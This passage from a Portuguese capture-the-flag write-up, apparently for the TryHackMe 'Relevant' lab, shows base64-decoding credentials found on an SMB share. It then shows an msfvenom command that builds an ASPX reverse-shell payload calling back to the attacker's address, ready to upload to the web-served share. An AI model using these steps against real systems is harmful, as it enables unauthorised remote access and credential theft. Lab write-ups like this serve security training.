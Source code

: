 ```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ cat passwords.txt 
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```
Aparentemente temos duas hashes em `base64`, vamos tentar decriptá-las.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw' | base64 -d
Bob - !P@$$W0rD!123base64: invalid input
                                                                                                                                                                                                                                             
┌──(hastur㉿hastur)-[~/Relevant]
└─$ echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d                                                                                                                                                                          1 ⨯
Bill - Juw4nnaM4n420696969!$$$   
```

Temos duas credenciais, mas ainda não sabemos para qual serviço em questão, vamos tentar acessar o arquivo `passwords.txt` pelo browser, para confirmar se o diretório web é o mesmo do SMB.

<img src="/thm/thm-relevant-3.png">

Ótimo, temos acesso ao diretório que reflete no webserver, podemos criar um exploit que nos dará um reverse shell!!

Vamos utilizar o `msfvenom` para criar nosso exploit.

```bash
┌──(hastur㉿hastur)-[~/Relevant]
└─$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.9.0.16 lport=8443 -f aspx -o hastur.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3411 bytes
Saved as: hastur.aspx
```
Vamos subir nosso exploit através do SMB.
